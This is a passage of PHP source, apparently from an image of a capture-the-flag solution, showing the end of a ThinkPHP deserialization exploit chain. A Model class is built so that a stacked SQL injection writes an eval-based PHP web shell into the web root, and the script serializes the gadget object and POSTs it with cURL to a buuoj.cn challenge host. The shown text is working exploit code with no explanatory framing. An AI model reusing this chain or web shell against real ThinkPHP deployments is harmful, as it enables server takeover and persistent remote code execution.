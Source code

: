 ```php
        }
    }
}

namespace Think{
    use Think\Db\Driver\Mysql;
    class Model{
        protected $options   = array();
        protected $pk;
        protected $data = array();
        protected $db = null;

        public function __construct(){
            $this->db = new Mysql();
            $this->options['where'] = '';
            $this->pk = 'id';
            $this->data[$this->pk] = array( // 堆叠注入写入shell
                "table" => "mysql.user where 1=1;select '<?php eval(\$_POST[amiz]);?>' into outfile '/var/www/html/amiz.php';#",
                "where" => "1=1"
            );
        }
    }
}

namespace {
    echo base64_encode(serialize(new Think\Image\Driver\Imagick()));

    $curl = curl_init();
    curl_setopt_array($curl, array(
        CURLOPT_URL => "http://914146f1-7d08-4a0a-9659-c143df1d68e1.node4.buuoj.cn:81/",
        CURLOPT_RETURNTRANSFER => true,
        CURLOPT_ENCODING => "",
        CURLOPT_MAXREDIRS => 10,
        CURLOPT_TIMEOUT => 3,
        CURLOPT_HTTP_VERSION => CURL_HTTP_VERSION_1_1,
        CURLOPT_CUSTOMREQUEST => "POST",
        CURLOPT_POSTFIELDS => base64_encode(serialize(new Think\Image\Driver\Imagick())),
        CURLOPT_HTTPHEADER => array(
            "cache-control: no-cache"
        ),
    ));
    $response = curl_exec($curl);
    $err = curl_error($curl);
    curl_close($curl);
    if ($err) {
        echo "cURL Error #:" . $err;
    } else {
        echo $response;
    }
}
```
